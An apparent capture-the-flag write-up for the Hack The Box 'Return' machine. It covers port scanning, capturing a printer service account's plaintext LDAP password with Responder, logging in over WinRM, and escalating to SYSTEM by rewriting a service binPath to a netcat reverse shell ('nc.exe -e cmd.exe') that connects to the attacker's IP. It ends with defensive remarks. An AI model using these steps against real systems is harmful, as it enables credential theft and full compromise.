



# Return

## Machine Info


## Recon

### port

- dns, http, smb
- kerberos, ldap, rpc

```console
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-24 15:08:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|2012|Vista|Longhorn|7|8.1|2008|11 (95%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7:::ultimate cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_8
Aggressive OS guesses: Microsoft Windows Server 2019 (95%), Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (92%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (91%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 2004 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### smb

Nothing special from smbclient.

### web

```console
INFO:
printer.return.local
389
svc-printer
*******
```



- GetNPUsers[x]

- Deep into settings update function



- the request to ip(printer.return.local) has no other options like username & password -> server already fill this info
- if configed into local ip -> catch network packets which might exist cred

## Foothold

### Responder Sniffs Credential

Payload: `ip=10.129.48.23`

Credential: `return\svc-printer:1edFg43012!!`

```console
└─╼$ sudo responder --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
           ...
[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.48.23
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

```console
└─╼$ crackmapexec winrm $IP -u svc-printer -p '1edFg43012!!'
SMB         10.129.48.23    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.129.48.23    5985   PRINTER          [*] http://10.129.48.23:5985/wsman
WINRM       10.129.48.23    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

## Privilege Escalation

### Enumeration

Local group: `Server Operators`

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/24/2024 7:18:23 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

> **Reference**: [Windows Built-in Users, Groups, Identities](https://ss64.com/nt/syntax-security_groups.html)
>
> 
>
> Server Operators Group is a built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.
>
> On Windows, you can use `sc.exe` to control services. **The idea is**: to stop a particular service, configure it with customized comands, and then restart the service to execute cutomized commands.

1. Enumerate services: `VSS`

```console
*Evil-WinRM* PS C:\programdata> services

Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
C:\programdata\nc.exe -e cmd.exe 10.10.16.5 6666                                                                           True ProfSvc
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
C:\programdata\nc.exe -e cmd.exe 10.10.16.5 6666                                                                           True VSS
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

2. Stop service `VSS`, reconfigure it and start service again

```console
*Evil-WinRM* PS C:\programdata> sc.exe stop VSS
...
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binPath="C:\programdata\nc.exe -e cmd.exe 10.10.16.5 6666"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
```

```console
└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.48.23] 58519
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Furthermore, this shell is killed 15 seconds around. The measuremen is to spawn another shell to fix this.

## Exploit Chain

port scan: dns, smb, http, kerberos -> http: printer.return.local\svc-printer update with ip -> fill in local ip & responder listener: non-ecrypted credential -> svc-printer priv: under Server Operators group (able to hanlder services) -> sc: stop VSS, reconfigure binPath, start VSS -> system priv

## Beyond Root

### Why Responder Receives Credentials

Responder has captured an LDAP (Lightweight Directory Access Protocol) bind request from a device with IP address 10.129.48.23. This request included a plaintext username (svc-printer) and password (1edFg43012!!). This may have occurred because the device was trying to **connect** to an LDAP server for authentication and was **not using an encryption** method such as SSL/TLS, resulting in the credentials being transmitted over the network in plaintext and intercepted by Responder.

This situation is typically indicative of inadequate security configurations or vulnerabilities on the device because:

- Credentials should not be transmitted in plaintext over the network.
- Devices should be configured to communicate only with trusted servers to avoid sending sensitive information to deceptive services.

To prevent such information leaks, networks should use strong encryption protocols (such as Kerberos or LDAPS with SSL/TLS) and configure appropriate services to guard against response spoofing attacks. In addition, regular security audits and monitoring should be conducted on the network to detect and defend against such attack behavior.
